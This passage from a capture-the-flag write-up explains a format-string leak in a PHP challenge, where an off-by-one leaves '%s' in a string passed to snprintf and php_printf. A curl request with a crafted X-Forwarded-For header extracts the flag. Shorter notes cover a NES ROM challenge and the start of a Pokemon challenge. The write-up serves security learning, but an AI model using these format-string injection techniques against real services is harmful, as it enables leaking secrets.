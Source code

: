 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This snprintf is weird as hell. We have something like:
```
snprintf(buffer, 256, overwrote_thing, flag);
php_printf(buffer);
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
If we can have a format string (%s) inside the overwrote string we can leak the flag content inside "buffer" and then see it when it is used in the php_printf(). Well, the string used to overwrite ends with "%", and that is half of a format string **:)**. If we look more carefully the loop we can see an off-by-one, so the byte after the "%" will not be overwritten. If this char is a "s" then we have:
```
snprintf(buffer, 256, "8====D ! JE! Target! 3%s", flag);
php_printf(buffer);
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Let's try it!

```
[X-C3LL@Kumonga] -> / ⌚  11:27:05
$ curl http://hackgym.ka0labs.org -H "X-Forwarded-For: XXXXXXXXXXXXXXXXXXXXXXXs" --silent 2>&1 | grep nn8ed
8====D ! JE! Target! 3nn8ed{Th3_r1ght_f0rm4t_Off_by_1}<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Nice **:)**

## NESy (REV / VERY EASY)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This challenge could be solved in tons of ways. We provided a NES Rom and this description:
```
Find the flag inside this ROM! It is, literally, in front of you!
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
If you read about how NES video works, that "in front of you" is easy to understand. Just execute the ROM and use the video debugger to check all [nametables](https://wiki.nesdev.com/w/index.php/PPU_nametables) (the flag was in $2800). Free points for the newbies **:)**

## Pokemon Trilero (MISC / EASY)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
A python script and a description are provided:
```
Insert mew into your team! Use the glitch!

$ nc challenges.ka0labs.org 5000

```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The python script was:
```python
# Stupid Pokemon challenge



class registers:
	regs = {
	"NB" : 0,
	"SP" : 0,
	"LP" : 0,
	"PC" : 0
	}


```